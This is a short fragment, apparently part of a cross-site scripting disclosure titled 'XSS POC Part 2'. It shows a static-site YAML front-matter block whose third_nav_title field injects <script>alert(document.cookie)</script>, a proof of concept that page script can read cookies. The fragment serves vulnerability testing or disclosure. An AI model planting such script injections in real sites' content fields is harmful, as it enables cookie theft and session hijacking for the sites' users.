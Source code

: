 ```yaml
---
title: Placeholdertitle
permalink: /example-folder/example-subfolder/documentcookie/
description: ""
third_nav_title: <script>alert(document.cookie)</script>
---
```

XSS POC Part 2